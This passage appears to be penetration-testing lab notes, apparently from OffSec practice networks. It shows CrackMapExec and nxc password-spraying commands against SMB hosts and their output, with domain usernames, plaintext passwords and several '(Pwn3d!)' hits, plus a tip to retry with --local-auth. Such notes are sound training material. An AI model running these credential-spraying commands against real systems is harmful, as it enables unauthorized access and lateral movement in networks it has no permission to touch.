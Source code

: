 ```
SMB         192.168.184.73  445    FILES04          [-] corp.com\krbtgt:HomeTaping199! STATUS_LOGON_FAILURE 
SMB         192.168.184.73  445    FILES04          [-] corp.com\stephanie:BrouhahaTungPerorateBroom2023! STATUS_LOGON_FAILURE 
SMB         192.168.184.73  445    FILES04          [-] corp.com\stephanie:HomeTaping199! STATUS_LOGON_FAILURE 
SMB         192.168.184.73  445    FILES04          [-] corp.com\Guest:BrouhahaTungPerorateBroom2023! STATUS_LOGON_FAILURE 
SMB         192.168.184.73  445    FILES04          [-] corp.com\Guest:HomeTaping199! STATUS_LOGON_FAILURE 
SMB         192.168.184.73  445    FILES04          [+] corp.com\jeffadmin:BrouhahaTungPerorateBroom2023! (Pwn3d!)
SMB         192.168.184.73  445    FILES04          [-] corp.com\jeffadmin:HomeTaping199! STATUS_LOGON_FAILURE 
SMB         192.168.184.73  445    FILES04          [-] corp.com\leon:BrouhahaTungPerorateBroom2023! STATUS_LOGON_FAILURE 
SMB         192.168.184.73  445    FILES04          [+] corp.com\leon:HomeTaping199! (Pwn3d!)

```
{% endcode %}

Should also try without domain and use --local-auth

```
crackmapexec smb 172.116.6.6-7 -u michelle -p 'NotMyPassword0k?' --local-auth 

```

nxc

might fail

{% code title="1st time it fails, 2nd time it succeeds" overflow="wrap" lineNumbers="true" %}
```
nxc smb 172.16.116.14-15 -u michelle -p 'NotMyPassword0k?' -d relia.com --continue-on-succes
SMB         172.16.116.15   445    WK02             [*] Windows 11 Build 22000 x64 (name:WK02) (domain:relia.com) (signing:False) (SMBv1:False)
SMB         172.16.116.14   445    WK01             [*] Windows 11 Build 22000 x64 (name:WK01) (domain:relia.com) (signing:False) (SMBv1:False)
SMB         172.16.116.15   445    WK02             [-] Connection Error: The NETBIOS connection with the remote host timed out.
SMB         172.16.116.14   445    WK01             [-] Connection Error: The NETBIOS connection with the remote host timed out.
Running nxc against 2 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00
                                                                                                                                                            
┌──(kali㉿kali)-[~/offsec/relia]
└─$ 
                                                                                                                                                            

                                                                                                                                                            
┌──(kali㉿kali)-[~/offsec/relia]
└─$ nxc smb 172.16.116.14-15 -u michelle -p 'NotMyPassword0k?' -d relia.com --continue-on-succes
SMB         172.16.116.15   445    WK02             [*] Windows 11 Build 22000 x64 (name:WK02) (domain:relia.com) (signing:False) (SMBv1:False)
SMB         172.16.116.14   445    WK01             [*] Windows 11 Build 22000 x64 (name:WK01) (domain:relia.com) (signing:False) (SMBv1:False)
SMB         172.16.116.15   445    WK02             [+] relia.com\michelle:NotMyPassword0k? 
SMB         172.16.116.14   445    WK01             [+] relia.com\michelle:NotMyPassword0k? 
Running nxc against 2 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00

```
{% endcode %}
